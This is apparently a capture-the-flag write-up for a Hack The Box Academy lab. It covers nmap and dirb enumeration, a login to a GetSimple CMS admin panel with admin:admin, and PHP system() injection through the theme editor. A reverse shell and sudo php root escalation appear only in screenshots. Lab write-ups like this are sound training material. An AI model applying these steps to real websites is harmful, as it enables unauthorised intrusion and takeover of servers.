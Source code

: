 # Hack the Box Academy

### Getting started - Knowledge check

### Final challenge write up

## Enumeration / Recon

Nmap Scan - Check open ports

```bash
nmap -sCV -oN nmap.txt ip_addr
```

```bash
# Nmap 7.94SVN scan initiated Thu Jun  6 21:22:22 2024 as: nmap -sCV -oN nmap.txt -v 10.129.194.173
Nmap scan report for 10.129.194.173
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4c:73:a0:25:f5:fe:81:7b:82:2b:36:49:a5:4d:c8:5e (RSA)
|   256 e1:c0:56:d0:52:04:2f:3c:ac:9a:e7:b1:79:2b:bb:13 (ECDSA)
|_  256 52:31:47:14:0d:c3:8e:15:73:e3:c4:24:a2:3a:12:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to GetSimple! - gettingstarted
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  6 21:22:34 2024 -- 1 IP address (1 host up) scanned in 12.30 seconds
```

> We see that there are only 2 ports open, SSH and HTTP, we can do some more recon on the web server as it is most likely our way to get a foothold on the machine.

### Web Enumeration

```bash
$ dirb http://10.129.194.173 -o dirb.out
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.out
START_TIME: Fri Jun  7 14:34:45 2024
URL_BASE: http://10.129.194.173/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.194.173/ ----
==> DIRECTORY: http://10.129.194.173/admin/                                                                                                                                                  
==> DIRECTORY: http://10.129.194.173/backups/                                                                                                                                                
==> DIRECTORY: http://10.129.194.173/data/                                                                                                                                                   
+ http://10.129.194.173/index.php (CODE:200|SIZE:5485)                                                                                                                                       
==> DIRECTORY: http://10.129.194.173/plugins/                                                                                                                                                
+ http://10.129.194.173/robots.txt (CODE:200|SIZE:32)                                                                                                                                        
+ http://10.129.194.173/server-status (CODE:403|SIZE:279)                                                                                                                                    
+ http://10.129.194.173/sitemap.xml (CODE:200|SIZE:431)                                                                                                                                      
==> DIRECTORY: http://10.129.194.173/theme/
```

We have an interesting directory /admin/
The webpage gives us a login prompt, checking most common default credentials, admin:admin and we are in.
At the bottom of the admin dashboard we can see that the webpage is running on - GetSimpleCMS 3.3.15
There are a lot of explpiots availalbe online but we can try to get a shell by manual exploitation.

One interesting thing I noticed the web page has is the theme module, we can edit themes which are a bunch of php files that can be run on the web server and they have no input sanitization and we can run the PHP system command.
To get to the theme editing page follow the steps below:

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6898f45a-250b-42f7-9ab6-3fb3e7af28cc)

It should take you to the Innovation theme default template page,
delete all the php code from the default template and put the following code -

```bash
<?php system ('id'); ?>
```

> NOTE: I lost access to the machine and had to spawn it again, please dont get confused if you see 2 different IPs.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/b7372da9-83ca-4572-8414-519e5dae9d94)

After making the changes, copy the url mentioned in the same webpage, it should look something like ```http://gettingstarted.htb/theme/Innovation/template.php```
If you are unable to visit this website make sure to edit the /etc/hosts file with the following command - sudo nano /etc/hosts
It should open the hosts file and at the bottom of the file add the following 
```bash
10.129.42.249    gettingstarted.htb
```

We have code execution !!!
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/9b24239d-3f83-4bbc-8bef-4a11166e2c41)

## Initial Foothold

Lets start up a ncat listener, you can also use nc
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/605147ff-77d5-4031-b0a8-bed22a78a4f8)


We will use a bash reverse shell payload.
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/25922b82-8a6b-4280-98a8-8df73ef37a51)


Save changes and refresh the theme/Innovation/template.php page
We get a reverse shell, lets use python pty to stabilize the shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/00b94010-da73-41d5-84d1-45c48e3f05e5)


Cool, now we can do Ctrl+c to stop processes and use Tab auto complete.

## Privilege Escalation

We are logged in as www-data, lets see what the user can do, first things first lets check the kernel version and if we can run any commands using sudo.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/a817684d-1c14-48ec-acb6-cfa632bd8822)


Awesome, we can run ```/usr/bin/php``` using ```sudo``` without a password.
We can run php commands using the command line using the -r option, lets try to get the id.

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/da61432c-4131-47e4-8d6b-fbe3ede7e949)

PWN3D !!! I am ROOT !!!

You can get the flags from ```/root/root.txt and /home/mrb3n/user.txt```

Thanks for reading, if this helped you, please respect on HTB Labs - https://app.hackthebox.com/profile/112146
